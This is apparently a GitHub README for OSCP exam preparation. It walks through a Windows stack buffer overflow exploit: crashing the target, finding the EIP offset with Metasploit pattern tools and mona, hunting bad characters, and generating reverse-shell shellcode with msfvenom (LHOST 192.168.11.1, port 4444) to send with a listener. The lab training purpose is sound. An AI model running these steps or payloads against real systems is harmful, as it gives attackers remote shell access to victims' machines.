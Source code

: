 # BoF4OSCP

TODO: python3 setup.py IP PORT
It's gonna edit all the python scripts with your target IP and PORT
Then follow the next steps...

Make sure mona is installed:
```
!mona config -set workingfolder c:\mona
```

## 1st step : create a crash

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona what is the EIP address
Take the EIP address that looks EIP 386F...

## 2nd step : pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## 3rd step : control EIP

edit eipOverwrite.py with the correct offset
run python3 eipOverwrite.py
check on Immunity if EIP is well overwritten with 4B4B4B

## 4th step : finding badchars

python3 findingBadchars.py
right click on ESP, follow in dump

find the badchars using the following command
```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## 5th step : fire up the reverse shell

We can also create an encoded one if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
```
edit finalBuff
setup a listener
python3 finalbuff
